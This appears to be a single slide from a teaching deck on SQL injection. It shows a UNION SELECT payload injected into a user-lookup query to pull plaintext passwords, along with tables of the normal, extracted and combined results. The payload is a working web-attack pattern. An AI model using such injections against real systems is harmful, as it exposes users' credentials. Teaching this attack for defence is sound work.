

# Now for the attack!!
Step 2: Execute arbitrary SELECT queries
Try: Join tables for SELECT queries with UNION SELECT
SELECT userid,email,username FROM user WHERE userid = ‘1‘ UNION SELECT userid,email,password from user;-- - `;

| userid | email | username |
| --- | --- | --- |
| 1 | john@gmail.com | johntan |
|  |  |  |
|  |  |  |
| userid | email | Password |
| --- | --- | --- |
| 1 | john@gmail.com | abc123 |
| 2 | jack@gmail.com | xyz123 |
| … | … | .. |
| userid | email | username |
| --- | --- | --- |
| 1 | john@gmail.com | johntan |
| 1 | john@gmail.com | abc123 |
| 2 | jack@gmail.com | xyz123 |
| … | … | … |